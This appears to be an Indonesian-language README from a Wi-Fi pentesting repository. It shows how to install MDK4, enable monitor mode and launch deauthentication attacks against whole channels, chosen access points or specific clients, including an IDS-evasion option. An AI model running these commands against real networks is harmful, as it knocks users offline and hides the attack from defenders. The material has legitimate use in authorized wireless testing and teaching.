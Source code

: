 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   2. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```
      
      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   3. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   4. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```

      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   5. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```

      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   6. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   7. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   8. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   9. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)

